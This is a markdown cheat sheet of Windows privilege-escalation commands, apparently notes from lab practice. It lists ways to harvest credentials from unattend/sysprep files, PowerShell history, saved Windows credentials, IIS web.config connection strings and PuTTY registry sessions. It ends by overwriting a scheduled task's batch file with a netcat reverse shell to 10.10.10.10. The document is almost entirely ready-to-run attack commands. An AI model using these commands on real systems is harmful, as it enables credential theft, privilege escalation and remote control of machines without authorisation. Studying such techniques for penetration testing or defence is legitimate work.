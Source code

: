 # Password History ✅
## File-Unattended ✅
### cmd ✡️
```cmd
dir C:\sysprep.inf /s /p
dir C:\sysprep.xml /s /p
dir C:\unattend.xml /s /p
```
### powershell ✡️
```powershell
Get-ChildItem -Path C:\ -Filter "sysprep.inf" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Filter "Unattend.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\Panther\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\system32\sysprep\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
```
## Powershell History ✅
### cmd ✡️
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in cmd
```
### powershell ✡️
```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in powershell
```
## Saved Windows Credentials ✅
```powershell
cmdkey /list # show save user credentials
runas /savecred /user:<username> cmd.exe # run cmd with another user 
runas /savecred /user:<username> powershell.exe # run powershell with another user
```
## IIS Configuration ✅
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
forfiles /p C:\ /s /m web.config /c "cmd /c findstr /i connectionString @file" 2>$null
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
## Retrieve Credentials from Software: PuTTY ✅
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

# Scheduled Tasks ✅
```cmd
schtasks /query /tn vulntask /fo list /v # ⬇️⬇️⬇️⬇️⬇️⬇️
# Folder: \
# HostName:                             THM-PC1
# TaskName:                             \vulntask
# Task To Run:                          C:\tasks\schtask.bat
# Run As User:                          taskusr1
-------------------------------
icacls c:\tasks\schtask.bat #  check the file permissions 
------------------------------
echo c:\tools\nc64.exe -e cmd.exe 10.10.10.10 4444 > C:\tasks\schtask.bat
```
